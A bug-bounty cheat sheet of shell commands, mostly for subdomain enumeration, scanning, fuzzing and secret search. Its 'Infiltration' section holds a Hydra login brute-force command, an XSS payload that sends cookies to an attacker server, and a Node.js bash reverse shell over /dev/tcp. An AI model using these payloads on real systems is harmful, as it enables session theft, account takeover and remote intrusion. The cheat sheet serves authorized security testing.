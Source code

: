 # Asset Enumeration

### Assetfinder Domain Lookup:
```bash
assetfinder <domain> > /path/to/your/targets/<target>/assetfinder.txt
```
### Nuclei Single Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -u <domain> -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers
```

### Nuclei Bulk Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -l /path/to/your/targets/<target>/in_scope.txt -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers
```

### Nuclei Specific-Template Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -l /path/to/your/targets/<target>/subs.txt -rl 50 -me "/path/to/your/targets/<target>/nuclei" -id email-extractor -fr -eid http-missing-security-headers
```

### Waybackmachine Domain Lookup:
```bash
waybackurls <domain> | httpx -silent > /path/to/your/targets/<target>/waybackurls.txt
```

### Subfinder Domain Lookup:
```bash
subfinder -d <domain> -silent -rl 50 -active -oD /path/to/your/targets/<target>/subfinder/
```

### Amass Domain Lookup:
```bash
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass/output.txt
```

### Amass Domain Lookup with Previous Subfinder Output:
```bash
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass/output.txt -nf "/path/to/your/targets/<target>/subfinder/<domain>.txt"
```

### Multi-Chain Asset Enumeration (including filtering of alive domains):
```bash
subfinder -d <domain> -silent -rl 50 -active -oD /path/to/your/targets/<target>/subfinder/ && \
assetfinder <domain> >> /path/to/your/targets/<target>/subfinder/<domain>.txt && \
waybackurls <domain> >> /path/to/your/targets/<target>/subfinder/<domain>.txt && \
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass.txt -nf "/path/to/your/targets/<target>/subfinder/<domain>.txt" && \
cat /path/to/your/targets/<target>/amass.txt | httpx -silent > /path/to/your/targets/<target>/final_assets.txt
```

### Add domain to BBRF:
```bash
bbrf domain add '*.example.com'
```

### Resolve Domains and Update BBRF:
```bash
for p in $(bbrf programs); do
  bbrf domains --view unresolved -p $p | \
  dnsx -silent -a -resp | tr -d '[]' | tee \
      >(awk '{print $1":"$2}' | bbrf domain update - -p $p -s dnsx) \
      >(awk '{print $1":"$2}' | bbrf domain add - -p $p -s dnsx) \
      >(awk '{print $2":"$1}' | bbrf ip add - -p $p -s dnsx) \
      >(awk '{print $2":"$1}' | bbrf ip update - -p $p -s dnsx)
done
```

### Parameter Enumeration in Burp via WSL to Windows Host Machine:
```bash
waybackurls <domain> | qsreplace "USERNAME" > /path/to/your/targets/<target>/fuzz.txt && ffuf -u FUZZ -w /path/to/your/targets/<target>/fuzz.txt -replay-proxy "https://$winhost:8080"
```

### Meg Enumeration with BBRF:
```bash
rm -rf /path/to/your/targets/<target>/.tmp && mkdir /path/to/your/targets/<target>/.tmp && bbrf domains | awk '{print "https://" $0}' > /path/to/your/targets/<target>/.tmp/hosts && meg --verbose -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -H "X-HackerOne-Research: USERNAME" --savestatus 200 /path/to/your/wordlists/simple-paths.txt /path/to/your/targets/<target>/.tmp/hosts /path/to/your/targets/<target>/meg_output/
```

### Nuclei Search With Active Domains from BBRF:
```bash
bbrf domains where source is dnsx | nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -H "X-HackerOne-Research: USERNAME" -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers -debug
```

# Content Discovery

### Search Github Org for Exposed Secrets/API keys:
```bash
trufflehog github --org=ORGANISATION
```

### FFUZ Fuzzing:
```bash
ffuf -w /path/to/your/wordlists/jhaddix_all.txt -u <URL>/FUZZ -H 'User-Agent: USERNAME HACKERONE_EMAIL' -recursion -recursion-depth 5 -c -maxtime 3600 -rate 20 -p "0.1-2.0" -fc 404 -od /path/to/your/targets/<target>/ffuf/
```

### Decompile/Analyse APK files with [apkrip.sh](/Script-Hub/Cybersecurity/Red%20Team/Python/apkrip/):
```bash
./apkrip.sh -f /path/to/your/targets/<target>/<app>.apk -d /path/to/your/targets/<target> -t <target>
```


### Feroxbuster Fuzzing:
```bash
sudo docker run --init -v /path/to/your/wordlists/:/wordlists/ -v /path/to/your/targets/<target>/feroxbuster/:/target/ -it epi052/feroxbuster -u <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -C 404 -C 302 -C 301 -d 6 --rate-limit 50 -w <wordlist> -o /target/feroxbuster.txt
```

### Spider for Subdomains/Directories:
```bash
gospider -q -s <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -o /path/to/your/targets/<target>/spider -c 20
```

### Jaeles Scanning:
```bash
jaeles scan -s 'js,html,php' -c 20 -u <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -o /path/to/your/targets/<target>/jaeles -v
```

### Naabu Port Scan (Top 1000 Ports) into nmap Port Scan:
```bash
cd /path/to/your/targets/<target>/ && naabu -host <domain> -tp 1000 -rate 100 -nmap-cli 'nmap -sV -sC -oA <target> -T2'
```

### Simple nmap Scan:
```bash
nmap -sC -sV -T2 -oA <target> <domain>
```

### Check .DS_Store Files for Leftover Data:
```bash
python3 ./main.py /path/to/your/targets/<target>/.DS_Store
```

### Check Slack Webhook:
```bash
curl -s -X POST -H "Content-type: application/json" -d '{"text":""}' "SLACK_WEBHOOK_URL"
```

## Infiltration

### Hydra Login Form Brute-Force:
```bash
hydra -L /path/to/your/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /path/to/your/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt <domain> -s <port> http-post-form "/api/login/:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}: NOT FOUND"
```

### Quick Image-Based XSS:
```bash
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

### Netcat Listener:
```bash
nc <yourserver> <yourport>
```

### NC Reverse shell from NodeJS process:
```bash
require('child_process').exec('bash -c "bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1"')
```

# Utility

### Generate a Self-Signed SSL Certificate and Key File:
```bash
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout ./selfsigned.key -out selfsigned.crt
```

### Partial String Match in Directory (useful for wildcard-type searches):
```bash
grep -nr '<string>' <directory>
```